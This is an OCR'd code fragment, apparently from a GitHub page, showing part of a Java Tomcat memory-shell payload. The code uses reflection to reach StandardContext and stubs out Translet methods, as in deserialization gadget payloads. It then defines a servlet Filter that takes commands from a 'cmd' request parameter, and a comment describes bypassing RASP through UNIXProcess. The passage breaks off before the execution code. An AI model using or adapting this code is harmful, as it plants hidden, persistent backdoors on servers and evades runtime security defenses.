 ```java

                ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade) servletRequest.getServletContext();
                Field applicationContextFacadeField = applicationContextFacade.getClass().getDeclaredField("context");
                applicationContextFacadeField.setAccessible(true);
                ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadeField.get(applicationContextFacade);
                Field standardContextField = applicationContext.getClass().getDeclaredField("context");
                standardContextField.setAccessible(true);
                StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

                System.out.println(servletRequest);
                return standardContext;
            }

        }
        catch (Exception e){
            e.printStackTrace();
        }
        return null;
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        Filter.super.init(filterConfig);
    }


    @Override
    public void destroy() {
        Filter.super.destroy();
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain chain) throws IOException, ServletException {
        System.out.println(
                "TomcatShellInject doFilter.....................................................................");
        String cmdParamName = "cmd";
        String cmd;
        if ((cmd = servletRequest.getParameter(cmdParamName)) != null){
////UNIXProcessImpl 绕过ProcessImpl.start、Runtime.exec RASP，详情搜索JNI
//            Class<?> cls = null;
//            try {
//                cls = Class.forName("java.lang.UNIXProcess");
//            } catch (ClassNotFoundException e) {
//                throw new RuntimeException(e);
//            }
```